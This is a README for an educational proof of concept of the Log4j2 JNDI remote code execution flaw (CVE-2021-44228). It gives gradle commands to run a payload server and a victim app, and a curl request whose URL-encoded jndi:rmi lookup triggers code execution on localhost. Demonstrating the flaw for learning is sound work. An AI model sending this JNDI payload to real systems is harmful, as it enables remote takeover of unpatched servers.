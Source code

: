 # Log4j2 RCE Vulnerability POC

A bare minimum proof-of-concept for Log4j2 JNDI Remote-Code-Execution vulnerability (CVE-2021-44228). This is intended
for education purpose to help people who are not security researchers to understand how it works and how large the impact is.

## Prerequisites

- JDK 1.8

Note: JDK 1.8 is required for `payload-server` to compile, but the `victim-app` is vulnerable up to JDK 14 (they removed
the Nashorn engine JDK 15).

## To Test

1. Start the `payload-server` by running:

```console
$ ./gradlew runPayloadServer
```

2. Open a new terminal session then start the `victim-app`:

```console
$ ./gradlew runVictimApp
```

3. Run `curl http://localhost:8080/hello?name=%24%7Bjndi%3Armi%3A%2F%2F127.0.0.1%3A8099%2Fexec%7D` to trigger the RCE.
4. To proof the remote code has been executed, check the console log of `victim-app`. You should see an unintended log
   has been printed on the screen.
